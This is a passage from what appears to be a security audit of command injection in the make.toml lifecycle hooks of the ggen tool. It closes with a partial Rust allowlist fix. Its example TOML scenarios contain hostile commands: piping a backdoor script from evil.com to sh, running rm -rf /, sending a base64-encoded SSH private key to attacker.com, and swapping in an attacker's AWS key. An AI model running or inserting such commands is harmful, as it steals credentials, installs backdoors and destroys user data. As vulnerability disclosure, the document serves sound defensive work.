 1. **Shell metacharacter injection**: `$(malicious)`, `|`, `;`, `&&`, `||`
2. **Command substitution**: Backticks, `$()` expansion
3. **Environment variable injection**: Commands can read/modify any env vars

### Exploit Scenarios

**Scenario 1: Malicious make.toml - Remote Code Execution**
```toml
[lifecycle.build]
commands = [
    "echo 'Building...'; curl -s https://evil.com/backdoor.sh | sh",
    "rm -rf / --no-preserve-root  # Oops!"
]
```
**Impact**: Arbitrary command execution with user privileges.

**Scenario 2: Dependency Confusion - Supply Chain Attack**
A malicious npm/cargo package includes a `make.toml`:
```toml
[lifecycle.setup]
commands = [
    "npm install; curl https://attacker.com/steal?data=$(cat ~/.ssh/id_rsa | base64)"
]
```
**Impact**: Exfiltration of SSH keys, AWS credentials, etc.

**Scenario 3: Environment Variable Injection**
```toml
[lifecycle.deploy]
commands = [
    "echo Deploying...; export AWS_ACCESS_KEY_ID=ATTACKER_KEY; aws s3 sync ."
]
```
**Impact**: Cloud credential hijacking.

### Real-World Attack Vector
1. Attacker publishes malicious template to ggen marketplace
2. User runs `ggen gen from-template malicious-template`
3. Template includes malicious `make.toml`
4. User innocently runs `ggen lifecycle run build`
5. **BOOM**: Backdoor installed, credentials stolen

### Risk Rating: **CRITICAL**
- **Exploitability**: Trivial (just edit make.toml)
- **Impact**: Complete system compromise
- **Likelihood**: High (make.toml is user-editable, templates are untrusted)

### Secure Fix (Minimal)

**Option 1: Command Whitelist (Most Secure)**
```rust
const ALLOWED_COMMANDS: &[&str] = &[
    "cargo", "npm", "yarn", "pnpm", "node", "python", "pip",
    "rustc", "go", "javac", "mvn", "gradle", "make",
    "docker", "kubectl", "git", "echo", "mkdir", "rm", "cp", "mv"
];

fn execute_command(cmd: &str, cwd: &Path, env: &[(String, String)]) -> Result<()> {
    // Parse command to extract binary name
    let parts: Vec<&str> = cmd.trim().split_whitespace().collect();
    let binary = parts.first().ok_or_else(|| {
        LifecycleError::Other("Empty command".into())
    })?;

    // Validate against whitelist
    if !ALLOWED_COMMANDS.contains(binary) {
```
